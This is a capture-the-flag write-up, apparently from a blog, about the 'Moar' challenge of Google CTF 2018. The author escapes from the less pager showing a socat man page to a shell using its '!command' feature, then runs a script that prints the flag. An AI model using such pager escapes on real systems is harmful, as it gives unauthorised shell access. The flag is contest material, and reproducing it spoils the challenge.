 # Time For Moar Google CTF 2018

[Last time](Google_CTF_2018_1.html), I explored the first five quests of Google
CTF 2018, and now, it's time for MOAR!

## Moar

The quest prompt gave a `netcat` address, let's connect and see what's over on
the other side:

```
$ nc moar.ctfcompetition.com 1337
[...]
NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan
[...]
```

It is a `man` page for `socat`, over the pager `less`. Tying `q` would drop the
connection. Let's check the help page:

```
[...]
  !command             Execute the shell command with $SHELL.
  |Xcommand            Pipe file between current pos & mark X to shell command.
[...]
```

Oh, that looks interesting, let's try it:

```
$ nc moar.ctfcompetition.com 1337
! ls /
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
! ls ~
ls: cannot access '/home/unprivileged': No such file or directory
! ls /home
moar
! ls /home/moar
disable_dmz.sh
! /home/moar/disable_dmz.sh
Disabling DMZ using password CTF{SOmething-CATastr0phic}
/home/moar/disable_dmz.sh: 18: /home/moar/disable_dmz.sh: cannot create /dev/dmz: Read-only file system
```

And there is the flag.

## Admin UI


